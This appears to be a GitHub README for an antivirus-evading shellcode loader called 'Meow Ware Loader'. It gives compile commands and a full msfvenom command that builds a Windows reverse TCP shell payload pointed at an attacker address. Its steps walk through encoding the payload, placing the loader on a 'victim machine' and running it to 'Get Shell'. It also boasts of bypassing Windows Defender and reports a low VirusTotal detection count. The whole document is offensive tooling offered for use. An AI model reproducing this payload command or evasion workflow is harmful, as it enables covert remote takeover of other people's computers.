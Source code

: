 # Meow Ware Loader
## About
A meow meow shellcode based, anti-antivirus shell-code loader.

## Compile
Tested on `gcc version 6.3.0 (MinGW.org GCC-6.3.0-1)`, `Microsoft Windows [版本 10.0.19044.1288]`

- Converter
    - `gcc converter.c -o converter.exe`
- Loader
    - `gcc main.c -O3 -s -o meow_loader.exe`

## Usage
1. Put the shellcode (without `\x`, `0x` ... ) in `src.txt`
    - e.g. : `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.40.129 LPORT=9453 -f c | grep -v unsigned|sed "s/\"\\\x//g"|sed "s/\\\x//g"|sed "s/\"//g"|sed ':a;N;$!ba;s/\n//g'|sed "s/;//g"`
2. Run the `converter.exe > meow.meow` on the attacker machine
    - It will appear a `meow.meow` file contain encoded shell code
3. Put the `meow_loader.exe` and `meow.meow` file into the victim machine in same folder
4. Run the `meow_loader.exe` on the victim.
5. Get Shell!! 
    - ![](img/shell.png)
## Performance
- Bypass Windows Defender on 2022/2/28
    - ![](img/defender.png)
- [VirusTotal (7/70)](https://www.virustotal.com/gui/file/ee0fcc459241ebd6f3d269c046763f09920c7f78f7b68ff5f98ab6b5325f155d?nocache=1) on 2022/2/28
    - ![](img/virustotal.png)
## Reference
- [SimpleShellcodeInjector](https://github.com/DimopoulosElias/SimpleShellcodeInjector)
- [基于HEX字符串执行的AV绕过](https://idiotc4t.com/defense-evasion/hex-execute)